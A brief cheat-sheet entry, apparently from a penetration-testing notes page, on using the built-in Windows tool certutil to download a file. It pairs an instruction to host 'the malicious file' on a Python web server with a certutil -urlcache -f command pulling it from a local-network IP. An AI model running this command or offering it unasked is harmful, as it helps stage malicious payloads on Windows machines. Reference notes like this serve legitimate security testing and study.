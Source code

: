 # certutil

## Built into Windows

* spin up a Python web server and host the malicious file

```bash
certutil -urlcache -f [http://192.168.1.1/secrets.txt](http://192.168.1.1/secrets.txt) nameofOutput
```

